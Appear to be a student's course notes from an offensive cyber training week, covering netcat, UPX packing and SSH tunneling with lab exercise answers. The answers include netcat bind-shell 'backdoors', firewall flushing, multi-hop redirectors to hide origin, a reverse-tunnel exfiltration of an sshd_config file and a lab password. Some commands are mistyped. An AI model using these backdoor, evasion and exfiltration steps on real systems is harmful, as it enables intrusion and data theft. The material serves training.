








# CTE - Week 5

## Classroom Links

* [Teams](https://teams.microsoft.com/l/team/19%3a7a166f374eb44c89bb972a20cf5a3d6e%40thread.tacv2/conversations?groupId=b0216bab-7ebb-498b-af22-3d7c8db2d92f&tenantId=37247798-f42c-42fd-8a37-d49c7128d36b)  
* [CLME](https://learn.dcita.edu/)
* [CTE_TTPs_Lab_Manual_CTA_1901](.\Files\CTE_TTPs_Lab_Manual_CTA_1901.pdf)

## Module 2 — Lesson 6: File Transfer

### Transferring Files

Common Name | Acronym | Typical Ports
--- | --- | ---
Secure Copy Protocol/Secure Shell |  SCP/SSH | TCP 22
File Transfer Protocol | FTP | TCP 20, 21
Trivial File Transfer Protocol | TFTP | TCP 69
Hypertext Transfer Protocol / HyperText Transfer Protocol Secure | HTTP/HTTPS | HTTP: TCP 80 / HTTPS: TCP 443
Server Message Block / Common INternet File System | SMB/CIFS | SMB: TCP 445
Network File System | NFS | TCP / UDP 2049, 111

* Secure Copy
  * `scp [ [user@] src host: ] src file [ [user@] dst host: ] dst file`
  * SCP Pullig
    * `user@src_host:src_file dst_file`
  * SCP Pushing
    * `scp src_file user@dst_host:dst_file`
* Windows SMB
  * `net use <drive letter > :< sharename> / user: [domain] \ < username>`

### Netcat

* Networking "Swiss Army knife"
* Can either initiate a TCP/UDP connection or bind to a port and listen for incoming connections
* Can be used for file transfers, banner grabbing, and port scanning
* Syntax varies depending on OS and Netcat version
* Netcat is not identical to ncat
    Common Option | Use
    --- | ---
    -e | \<prog> Inbound execute program, often removed
    -l | Listen for inboun connections
    -p \<port> | Local Port number
    -u | UDP mode
    -v | Verbose mode
    -h | Help

### Basic Netcat Usage

* Open a listening port on your Windows 7 VM
  * Don't forget to check your syntax  
    
* Connect to Windows 7 VM from CentOS
    

### Using Netcat to Get a Remote Shell

* Use the -e option to execute a program after connection
    
* Ensure the nc version you are using has the —e option.

### Transferring Files With Netcat

* Receiver sets up listener; sender calls forward
  * Destination: `nc -l <dst port> > <filename>`
  * Source: `nc 10.0.2.2 <dst_port < <filename>`
  
* Reverse transfer
  * Sender sets up listener; receiver calls back
  * Source: `nc -1 <src port > < <filename>`
  * Destination: `nc <src_ip> <src_port> <filename>`
    

### Socat

* Socat accepts two bidirectional byte streams and transfers data between them.
* Typical Examples:
  * Opens TCP over IPv4 `TCP4: <host>:<port>`
  * Opens a TCP listener on port, IPv6 only `TCP6-LISTEN:<port>,fork`
    * `fork` option - multiple simulataneous uses
  * Autoselect network protocol based on \<host> `UDP:<host>:<port> -open UDP connection`

### Transferring Files via Terminal

* Sometimes all you have is a console window
  * For example, telnet; shell from exploitation
* Paste can copy text, but what about binaries
  * Need to encode as text, then paste and decode
* Solutions
  * uuencode/uudecode—common on UNIX
  * Interpreters on target—Perl, Python, Bash, GCC
    * For example, perl has uudecode built in

### Packers

* Executable packers are applications that compress and obfuscate an executable
  * Smaller-sized executable
  * Different file hash
* A common packer used by malware us UPX
  * Most antivirus software detects the presence of UPX packing and flags it as possible
* The following example is provided for the upx.exe program to create a UPX-compressed executable
  * `upx.exe -o <Outfile> -<0-9> <Input File>`

## Exersise - Module 2, Lesson 7 – File Transfers

### Scenario 1

1. Scan TCP ports 2 through 90 on the target machine. Create scans that will do the following:  
  a. Return messages on Standard Error with as much detail as possible  `-v`  
  b. Not perform a DNS Inquiry `-n`  
  c. Emit a packet without payload  `-z`  
  d. Timeout after 1 second  `-w1`  
  e. Record the actions taken  `nc -v -n -z -w1 10.10.1.70 2-90`  

Port | Service | Status
--- | --- | --- 
88 | Kerberose | Time Out
87 | Link | Time Out
80 | http | Open
78 | Finger | Time Out
70 | gopher | Time Out
68 | Bootpc | Time Out
67| BootPS  | Time OUt
65 | tacacs-ds | Time OUt
53 | Domain | Time Out
50 | re-mail-ck | Time Out
49 | tacacs | Time Out
43 | Whois | Time Out
42 | NameServer | Time Out
37 | time | Time Out
25 | smtp | Time Out
23 | telnet | Open
22 | ssh | Open
21 | ftp | Time Out
20 | ftp-data | Time Out
19 | chargen | Time Out
18| msp | Time Out
17 | qotd | Time Out
15| netstat | Time Out
13| daytime | Time Out
11 | systat | Time Out
09 | discard | Time Out
07 | echo | Time Out

2. If a web port is open, what is the port number?
   * `80`
3. Use netcat on the Kali machine to connect to the target. Once the connection is made, retrieve the target’s banner. 
   * `echo "" | nc -v -n -w1 10.10.1.70 2-90`
   * 80 - Server: Apache/2.4.18 (Ubuntu)
   * 22 - SSH-2.0.OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
4. Flush the iptables on the Ubuntu machine, clear any additional chains and ensure all default tables’ policies are set to ACCEPT.
   * `sudo iptables -F`
   * `sudo iptables -P INPUT ACCEPT`
   * `sudo iptables -P FORWARD ACCEPT`
   * `sudo iptables -P OUTPUT ACCEPT`
5. Create two persistent listeners (backdoors) on the Ubuntu machine. Use port 8888 for the first listener and 9999 for the second listener.
   * `nc -l -p 8888 -e /bin/bash`
   * `nc -l -p 9999 -e /bin/bash`
6. Connect to the first Ubuntu listener using Kali on port 8888.
   * `nc 10.101.70 8888`
7. Create a listener on the Kali machine to accept the incoming file transfer on port 6666.
   * on Kali - `nc -l -p 6666 > filein.txt`
8. Create a services.txt file by running the following command:
sudo systemctl list-units --type service --all > / home/intern01/services.txt
9. Transfer the /home/intern01/services.txt file to Kali and document the
command/syntax used.
   * On Ubuntu - `nc 10.10.1.60 6666 < services.txt`
10. Connect to the second Ubuntu listener using Windows 10 on port 9999.
11. Create a listener on the Windows 10 machine to accept the incoming file transfer on port 7777. Transfer the /home/intern01/services.txt file to Windows 10.
    * On Win10 - `nc -l -p 7777 > filein.txt`
    * On Kali vi `nc 10.10.1.70 9999` `nc 10.10.1.20 7777 < services.txt`

### Scenario 2

1. From the Windows 10 machine, use PuTTY to telnet into the Ubuntu machine with username intern and the password password.
   * `intern01:CTEPasswd1976`
2. Find the uuencode/uudecode tool in the Windows Administrator’s “NetworkTools” folder.
    * `c:\users\srogers\Desktop\NetworkTools\uuencode.exe`
3. The uuencode syntax differs slightly between Linux/Unix and Windows; uuencode the socat binary from the Network Tools directory and name the file socat.uu.
    * `uuencode.exe socat_1.7.2.3-1_i3896.deb socat.uu`
4. How big is the uuencoded socat binary in KB? `418268 kb`
5. Open the recently encoded file with Notepad++.
a. Select all the file content by pressing \<CTRL> + A
b. Copy to the clipboard by pressing \<CTRL> + C
6. On the putty telnet prompt execute the following cat > socat
   * `cat > socat` `Copied text`
7. Once the word “end” appears in the PuTTY window, stop the transfer by pressing \<CTRL> + D
8. What is the size in KB of the transferred file? `411639`
9. Is the file size the same as the original executable? `It is larger`
10. What needs to change for the file to be executed successfully on the new host?
    * `Decode on the other side`

### Scenario 3

1. Open a command prompt and navigate to the Transfer directory on the Windows 10 desktop.
2. Use upx.exe to pack fpipe.exe.
   * `upx.exe -9 -o fpipe.pak fpipe.exe`
3. Use upx.exe to pack windump.exe.
   * `upx.exe -9 -o windump.pak windump.exe`
4. Change the file extension from .pak to .exe and delete the original files.
5. Use netcat to move the files from the Attack/Ops machine to the Target.
   * On win10 `nc.exe -l -p 5555 < windump.exe`
   * On kali `nc 10.10.1.20 555 > windump.exe`
6. Verify the file transfer.
   * `ls -lah windump.exe` - 219 kb
7. Cleanup.
8. Tear down communications.

## Module 2 Lesson 7: Tunneling

### Network Engineering Blues

* Sometimes traffic does not play nicely with pipes it needs to go through
  * Privately Between addressed networks
    * Intervening links will not route
    * Somewone wants to block your traffic
  * Protocol is usupported
    * Your ISP does not route IPv6 yet
    * Someone want to spy on your traffic

### Tunneling

* Tunneling is the solution
  * Put traffic you wan to send inside a protolcol that can get to your desired destination
  * VPN example
    * Bob cannot directly access his company's internal network from home
    * Bob  uses a VPN client on his laptop to connect to his company's VPN concentrator, creating a tunnel
    * Using the tunnel, Bob's VPN client encapsulates and encrypts all traffic destined for the company network and sends it to the concentrator

### IPv6 to IPv4 Tunneling

* IPv6 migration: <25% of world ISPs have adopted IPv6
  * Makes it tough to be an early adopter
  * Multiple solutions proposed—ISATAP, Teredo
  * 6t04 Tunneling
* Solution is Simple
  * Put IPv6 packet in an IPv4 packet
  * Methodology is standardized, IPv4 next protocol 41
  * Packet routes over IPv4 to the other endpoint
  * IPv4 framing is stripped at the other end, and IPv6 packet is processed

### Finer Points of Tunneling

* Tunneling can be at any layer of the network stack:
  * Lower levels usually integrated into OS
  * Higher levels typically into application software
* Tunneling can put lower layers into other ones.
  * Ethernet over IP why not? (Why?)
  * As long as you have the software on both ends to process it, you can tunnel any protocol over another

### Secure Shell (SSH)

* SSH is used for encrypted terminal access across a network
  * SSH server (sshd) listens on a bound port 22
  * SSH client initiates a TCP session to the server
* SSH has multiple channels/tunnels
  * Tunnels can be set to listen on a preconfigured port
  * Tunnels forward packets to the SSH peer
  * The receiving end sends packets to a preconfigured destination

### Forward vs. Reverse

* Each channel opens only one listener
* Forward Tunnel
  * SSH client opens the tunnel listener
  * SSH server redirects received data
  * Call forward: Initiate a connection to the remote machine
* Reverse Tunnel
  * SSH server opens the tunnel listener
  * SSH client redirects received data Call back: Expect something else to establish a connection

### Tunnels in Detail

* Tunnel setup:
  * Issue command on client:
    * `ssh <userA>@<Server1> - L<lis_port>:<dst_ip>: <dst_port>`
  * Client connects to server 1 with userA credentials
  * Client/server negotiates a channel for the tunnel
  * Client creates a listening socket on < lis port >
  * Server redirects traffic traveling through tunnel to
    * `<dst ip:dst port>`
* Connection:
  * Connect to the tunnel listener using client software (e.g., ssh, telnet, web browser, netcat)
  * Client negotiates the TCP handshake with the tunnel listener
  * Packet from the client is passed through the tunnel
  * SSH peer negotiates the TCP handshake with the intended target
  * Data are forwarded to the intended destination
  * All subsequent packets flow through tunnels and are redirected

### Tunnel Diagrams

* First line shows SSH connection:
  * Single dash (----) represents a TCP connection
  * \< denotes that the host is listening on a public interface
* Second line represents a TCP connection to the third host via the tunnel:
  * \> denotes that the host is listening on a local loopback interface
  * \==== represents the SSH tunnel

### Operational Concept

* Conceptually, split machines into three types:
  * Ops Machine
    * Machines under you direct physical control
    * Can reconfigure, add software and more at will
  * Redirectors
    * Machines to wicht you have access but not control
    * Standalone tools can be uploaded
  * Target
    * Machine you are trying to access

### SSH Into Remote Machine

* Connect to redirector, setup tunnel with redirector:
  * `ssh administrator@192.168.10.3 -L5555:192.168.108:22`
* Connect to target host through tunnel:
  * `ssh root@127.0.0.1 -p 5555`
  * Network destination changes to local listener
  * Username/password remain the same for the target host

### Multiple Operations Boxes

* By default, forward tunnels listen on localhost (127.0.0.1)
* May want multiple ops boxes to access a tunnel:
  * Usually set up tunnels w/Linux (better SSH tools)
  * Client may be Windows based (RDP, SMB)
* Can configure using ssh syntax:
  * -gL14560:192.168.100.4:22
  * L0.0.0.0:14560:192.168.100.4:22

* Set up a tunneon on CentOS VM:  
  * `ssh root@192.168.10.7 -gL14560:192.168.100.4:22`
* Connect to target from Windows XP VM:
  * mstsc [v: 192.168.1.14:8661
  * Log in using credentials for 192.168.10.3 (IIS Server)

### FTP Into Remote Machine

* Set up tunnel:
  * `ssh root@192.168.10.7 -L3342:192.168.10.8:21`
* Connect to target via tunnel:
  * `ftp 127.0.0e.1 3342`
* Get an FTP connect but cannot get data back. Why not?

### Why Multi-Hop?

* Multiple redirectors:
  * Hide your original location better
* Multiple targets:
  * Ultimate target may be buried within network
  * Multiple hops may be required to circumvent filtering and security devices

### Using Two Hops

* Connection to first redirector and first tunnel:
  * `ssh administrator@192.168.10.4 -L 35261: 192.168.10.7:22`
* Connection to second redirector and second tunnel via tunnel:
  * `ssh root@127.0.0.1 -p 35261 -L 16242: 192.168.1e.6:80`
* Connect to target via tunnels:
  * Point web browser at `http://127.0.0.1:16242`

### Public/Private

* Often, one set of addresses is used for public access, while another is used for private
  * Machines can have multiple network interfaces
  * Network address translation (NAT)
* Remember who is connecting
  * Addressing is done on a hop-by-hop basis
  * If using public addressing to get beyond firewall/NAT, you need private  addressing to redirect to hosts in the network

### Reverse Tunnels

* Why?
  * Port Forwarding
    * May want a remote server to access a service
  * Exloitation
    * Many exploits work by calling back to a machine that you control
  * Evade Filtering Devies
    * some scenarious allow outbound connections only
* Common thread: The remote end initiates the TCP connection

### Reverse Tunnel Syntax

* `—R [<1 address>:port>:<dst ip> :<dst port>`
* SSH server opens a socket listener on \<l_port> on \<l_address>
* Default address for -R is 0.0.0.0
* Client/server negotiates channel for tunnel
* When some remote machine connects to listener, packets are forwarded to SSH client through tunnel
* SSH client opens connection to \<dst_ip> on \<dst_port> and forwards packets

### Basic Port Forwarding

* SSH is already running on your machine
* Set up tunnel:
  * `ssh root@192.168 .10.7 -R8022:127.0.0.1`
* Connect from outsid the network
  * `ssh root@192.168 .10.7 -p 8022`

### Reverse Tunnel Diagram

* Set up tunnel on Win7 physical:
  * `ssh root@192.168.10.5 -R24981:127.0.0.1:6677`
* Set up necat listener on Win7 physical:
  * `nc -L -p 6677`
* Connect from remote host on FTP server:
  * `nc 192.168.10.5 24981`

### Multiple Hops: Reverse Tunnel

### Additional Tunnels

* Suppose we want to add a tunnel after we have already set up our infrastructure
* Closing and reopening = bad OPSEC
* Native ssh command has built-in SSH prompt
* Entering —C in an open SSH window gives you a new prompt that allows you to set up tunnels:
  * `[root@localhost ~]# <~> + <c>`
  * `ssh> - L4444:127.0.0.1:8080`
  * Forwarding port
  * `... <CTRL> + <c>`
  * `[root@localhost ~]#`

## Exersise - Module 2, Lesson 7 – Tunneling and Data Exfiltration

### Senario 1

1. Draw a diagram of the tunnels that will be created. Indicate the client connection created by the beacon on the diagram and document the command used to set up the netcat listener that will receive the communications.

2. Set up the netcat listener.  
  On Win10 - `nc -l -p 6677`  
3. Set up the tunnel infrastructure.  
  On Win10 - `ssh root@10.10.1.40 -L 1111:10.10.1.60:22` - to CentOS  
  On Win10 - `ssh root@127.0.0.1 -p 1111 -L2222:10.10.1.70:22` - to Kali  
  On Win10 - `ssh nimda@127.0.0.1 -p 2222 -R31330:127.0.0.1:31330`
4. Conduct a brief survey of the target in question by investigating the following:  
  a. Important log files at /var/log  
    `cat /var/log/syslog*`  
  b. Recent security events  
    `cat /var/log/ufw*`
  c. Network configurations  
    `ifconfig`
    `/etc/nsswitch.conf`
  d. Listing network connections  
    `netstat -nao | grep LISTENING`
  e. Listing users  
    `awk -F ':' '{print $1}' /etc/passwd`  
  f. Look at schedule jobs  
    `crontab -l`  
  g. Check DNS settings and the host file  
    `cat /etc/hosts`
    `cat /etc/resolv.conf`
    `cat /etc/hosts.deny`  
  h. Look at auto-start services  
    `upstart`
5. Wait two minutes to receive the communications.
6. Document the intercepted communication.
7. Clean up.
8. Tear down the SSH tunnels in the proper order.

### Senario 2

1. Clear the iptables including the extra chains on the FTP server and set all default tables policy to ACCEPT.  
  `iptables --list`  
  `iptables -P INPUT ACCEPT`  
  `iptables -P OUTPUT ACCEPT`  
  `iptables -P FORWARD ACCEPT`  
  `iptables -F`  
2. Diagram the forward tunnels and the reverse tunnel , then document the commands that will be used to create them.
3. Indicate where the client connection on the diagram and create the command syntax for the netcat listener that will be set up to receive the FTP communications.  
  On Win10 `ssh root@10.10.1.40 -L1111:10.10.1.60:22`  
  On Win10 `ssh root@127.0.0.1 -p 1111 -L2222:10.10.10.70:22`- To Kali  
  On Win10 `ssh nimda@127.0.0.1 -p 2222 -L3333:10.10.10.1.71:21` - To Ubuntu  
  On Win 10 `ssh nimda@127.0.0.1 -p 2222 -R54197:127.0.0.1:54197` - Reverse from Ubuntu  
4. Prepare a netcat listener on the attack machine to receive the file sshd_ config from the FTP server on port 54197.  
On Win 10 `nc -lvp 54197 > sshd_config`  
5. Complete the file transfer.
NOTE: Once you are logged into the FTP server, use the quote \<ftp command> parameter command to inform the server which port is being used by your netcat listener for the transmission, Next, use quote
\<ftp command> parameter to retrieve the desired file.  
`ftp open 127.0.0.1 3333`  
`nimda -> <password> -> ls`  
`cd /etc/ssh`  
`quote port 10,10,1,70,211,181`
`get sshd_config`
6. Clean up.  
